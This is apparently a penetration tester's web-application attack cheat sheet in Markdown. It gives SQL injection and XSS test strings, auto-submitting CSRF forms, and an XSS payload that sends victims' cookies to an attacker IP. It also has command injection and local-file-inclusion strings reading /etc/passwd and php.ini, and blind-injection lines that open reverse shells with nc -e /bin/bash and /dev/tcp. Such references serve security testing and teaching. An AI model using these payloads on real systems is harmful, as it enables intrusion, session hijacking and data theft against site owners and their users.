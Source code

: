 ```yaml
---
title: Vulnerabilities
category: Web Application
order: 2
---
```


> **SQL Injection: Test Strings**

{% highlight bash %}
' ` " ; /* --
{% endhighlight %}

> **SQL Injection: Database Identification**

Oracle | ORA-01756: quoted string not properly terminated
MS SQL Server | Incorrect syntax near 'something'
PostgreSQL | 5-digit Hex Error Code

> **CSRF**

GET:
{% highlight html %}
<img src="http://<ip_of_site>/form.php?<parameter>=<value>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

> **XSS**

Get Cookie:
{% highlight html %}
<script>document.location='http://[AttackerIP]/cgi-bin/grab.cgi?'+docment.cookie;</script>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}



> **XSS Test Strings**

{% highlight html %}
'';!--"<XSS>=&{()}
{% endhighlight %}

{% highlight html %}
<script>alert(document.cookie);</script>

<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>

<script src=http://www.example.com/malicious-code.js></script>

%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e

\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e

>"><script>alert("XSS")</script>&

"><STYLE>@import"javascript:alert('XSS')";</STYLE>

<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert('XSS')>

<IMG SRC=JaVaScRiPt:alert('XSS')> 

<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>

<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">

<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">

<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">

{% endhighlight %}

> **Command Injection**
{% highlight bash %}
#Commix Automated Tool
commix --level=3 --url="http://website/?arg=INJECT_HERE&arg2=argument" 

#Test Strings
test`pwd`
test$(pwd)
test; pwd
test | pwd
{% endhighlight %}

> **Local File Include**

{% highlight bash %}
#Automated Tool
fimap -u 'http://website/?p=file.html'

#Test for Local File Include
http://website/?p=file%3a%2f%2f%2fetc%2fpasswd

#Grab data
http://website/?p=php://filter/convert.base64-encode/resource=/etc/php/7.0/apache2/php.ini
http://utilities.snrt.io/?p=php://filter/convert.base64-encode/resource=index.php

#Rebuild Base64 file (e.g.,executable)
base64 -d extractedBase64File > executable2

{% endhighlight %}


> **Blind Command Injection**

{% highlight bash %}
#Attacker Machine
tcpdump -n host <webserver IP> and ICMP
nc -l [port]
#Victim
test; ping -c 4 <yourAttackerIP>; echo hello 
test; /bin/nc [YourAttackerIP] [port] -e /bin/bash; echo hello
#Alternative to NC for non-debian based distrobutions
/bin/bash -i > /dev/tcp/[AttackerIP]/[attackerport] 0<&1 2>&1 
{% endhighlight %}

> **Web Shells**

Kali: 

PHP | <code> /usr/share/webshells/php/ </code>
PERL | <code> /usr/share/webshells/perl/ </code>
Cold Fusion | <code> /usr/share/webshells/cfm/ </code>
ASP | <code> /usr/share/webshells/asp/ </code>
ASPX | <code> /usr/share/webshells/aspx/ </code>
JSP | <code> /usr/share/webshells/jsp/jsp-reverse.jsp </code>

Online:

* [PHP and Perl](http://pentestmonkey.net/category/tools/web-shells)
* [Bash, PHP, Netcat, Telnet, Perl, Ruby, Java, Python, Gawk](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

> **Useful Resources**

* [MongoDB](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [Command Injection](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [Fuzzing List](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [XSS, SQL, LDAP, XPATH, XML Injection Test Strings](https://www.owasp.org/index.php/OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors)
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [XSS Examples](http://www.xssed.com/)
* [SQL Injection](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
* [Informix, MSSQL, Oracle, MySQL, Postgres, DB2, Ingres SQL Injection Cheat Sheet](http://pentestmonkey.net/category/cheat-sheet)
* [Access Injection Cheat Sheet](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)

> **Useful Tools**
* [SQLMap](http://sqlmap.org)

